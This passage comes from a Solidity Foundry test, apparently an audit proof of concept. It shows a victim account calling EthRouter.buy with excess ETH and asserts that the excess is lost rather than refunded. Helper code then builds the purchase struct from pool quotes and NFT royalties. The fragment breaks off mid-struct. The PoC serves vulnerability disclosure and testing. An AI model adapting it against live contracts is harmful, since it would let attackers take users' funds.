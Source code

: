 ```solidity
        // Victim balance before buy order.
        uint256 victimBalanceBefore = victim.balance;

        // Purchase amount = baseTokenAmout + royalty -> royalty already included in setup
        uint256 purchaseAmount = buys[0].baseTokenAmount;

        // Expected balance of victim after purchase.
        uint256 expectedVictimBalanceAfter = victimBalanceBefore -
            purchaseAmount;

        // Execute the buy from the victim account.
        vm.prank(victim);
        ethRouter.buy{value: buys[0].baseTokenAmount + EXCESS}(buys, 0, false);

        // Calculate the amount of stolen excess ETH.
        uint256 excessAmountLost = expectedVictimBalanceAfter - victim.balance;

        _logState(" After exploit");
        _logExtraData(buys[0].baseTokenAmount, royalty, excessAmountLost);

        // Test case that excess_amount_lost is not 0 and is equal to the excess in ethRouter.buy()
        assertEq(excessAmountLost, EXCESS, "Excess eth is not sent");
    }

    // ======================================= Helpers ======================================= //

    /**
     * @return buys The array expected from EthRouter.buy to execute the buy operation.
     * @return royalty The calculated royalty amount that will be paid to the receiver.
     */
    function _getBuysStructArray()
        internal
        view
        returns (EthRouter.Buy[] memory buys, uint256 royalty)
    {
        // Add nft id.
        uint256[] memory tokenIds = new uint256[](1);
        tokenIds[0] = tokenId;

        // Calculate total amount to be paid.
        (uint256 baseTokenAmount, uint256 fee1, uint256 fee2) = privatePool
            .buyQuote(tokenIds.length * 1e18);

        // NFT's sale price is excluding the fees.
        uint256 salePrice = baseTokenAmount - fee1 - fee2;

        // Retrieve the royalty that will be paid.
        (, royalty) = nft.royaltyInfo(tokenId, salePrice);

        // The total input ETH amount.
        baseTokenAmount = baseTokenAmount + royalty;

        // Return the needed argument struct array.
        buys = new EthRouter.Buy[](1);
        buys[0] = EthRouter.Buy({
            pool: payable(address(privatePool)),
            nft: address(nft),
            tokenIds: tokenIds,
            tokenWeights: new uint256[](0),
            proof: PrivatePool.MerkleMultiProof(
                new bytes32[](0),
                new bool[](0)
            ),
```
